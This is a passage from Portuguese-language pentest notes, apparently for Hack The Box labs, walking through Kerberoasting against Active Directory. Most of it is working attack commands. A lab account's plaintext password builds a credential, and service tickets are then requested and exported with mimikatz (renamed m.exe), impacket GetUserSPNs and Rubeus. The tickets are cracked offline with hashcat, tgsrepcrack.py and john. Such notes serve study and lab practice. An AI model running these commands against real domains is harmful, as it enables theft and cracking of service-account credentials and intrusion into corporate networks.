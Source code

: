 Caso não consiga, basta informar a credencial para que as coisas aconteçam:

```
$pass = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco',$pass)
get-domainspnticket -spn IMAP/EXCH01.htb.local -credential $cred
```

Depois podemos verificar que conseguimos o ticket de duas maneiras:

```
klist
```

ou

```
./m.exe
privilege::debug
kerbertos::list /export
```

Outra opção:

```
impacket-GetUserSPNs -dc-host forest.htb.local htb.local/svc-alfresco -k -no-pass
```

Ainda outra opção:

```
r.exe kerberoast /outfile:kerberoastables.txt /domain:active.htb /dc:dc.active.htb /format:john
hashcat -m 13100 -a 0 ticket.kirbi /usr/share/wordlists/rockyou.txt
```

Depois de requisitado esse ticket, podemos quebrá-lo de algumas formas, mas a mais tranquila seria com o tgsrepcrack.py

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>tgsrepcrack</p></figcaption></figure>

```
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-
Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

Outra opção seria com john the ripper

kirbi2john.py

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption><p>kirbi2john.py</p></figcaption></figure>

```
python kirbi2john.py /path/file.kirbi > kirbi.john
john --wordlist=/usr/share/rockyou.txt kirbi.john
```

Ainda temos outra forma de obter tickets via kerberos com o impacket. Vejam este exemplo:

a partir da enumeração deu pra obter a senha, mas caso consigamos o hash, também podemos obter o ticket, conforme os comandos abaixo:
